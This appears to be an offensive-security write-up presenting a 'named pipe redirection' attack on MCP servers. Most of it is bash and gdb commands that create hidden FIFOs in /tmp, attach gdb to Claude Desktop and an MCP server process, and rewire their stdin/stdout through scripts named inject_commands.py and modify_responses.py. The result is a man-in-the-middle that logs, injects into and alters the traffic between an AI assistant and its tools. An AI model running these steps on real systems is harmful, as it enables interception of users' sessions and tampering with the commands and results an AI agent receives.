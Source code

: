 # Named Pipe Redirection: The 1970s Attack That Still Owns MCP

## "What's Old Is New Again" - The UNIX Pipe Trick

### Overview
This attack from the dawn of UNIX still completely compromises modern MCP servers. By redirecting STDIO through named pipes we control, we achieve perfect man-in-the-middle position with surgical precision.

## The Ancient Technique That Still Slays

### Step 1: Create Our Trap
```bash
# Create named pipes we control
mkfifo /tmp/.mcp_stdin_trap
mkfifo /tmp/.mcp_stdout_trap

# Set up our interception process
cat /tmp/.mcp_stdin_trap | tee /tmp/captured_stdin.log | \
    python3 inject_commands.py | \
    nc -U /real/mcp/socket &

nc -U /real/mcp/socket | tee /tmp/captured_stdout.log | \
    python3 modify_responses.py | \
    cat > /tmp/.mcp_stdout_trap &
```

### Step 2: The GDB Kung Fu
```bash
# Attach to Claude Desktop
$ gdb -p $(pgrep claude-desktop)

# Make it open our fake stdin
(gdb) set $fd = (int)open("/tmp/.mcp_stdin_trap", 0)
(gdb) call dup2($fd, 0)
(gdb) call close($fd)

# Make it open our fake stdout  
(gdb) set $fd = (int)open("/tmp/.mcp_stdout_trap", 1)
(gdb) call dup2($fd, 1)
(gdb) call close($fd)

# Detach - Claude now talks through OUR pipes!
(gdb) detach
(gdb) quit
```

### Step 3: Do The Same to MCP Server
```bash
# Attach to MCP process
$ gdb -p $(pgrep mcp-server)

# Redirect its STDIO to our pipes
(gdb) set $fd = (int)open("/tmp/.mcp_stdin_trap", 0)
(gdb) call dup2($fd, 0)
(gdb) call close($fd)

(gdb) set $fd = (int)open("/tmp/.mcp_stdout_trap", 1)  
(gdb) call dup2($fd, 1)
(gdb) call close($fd)
```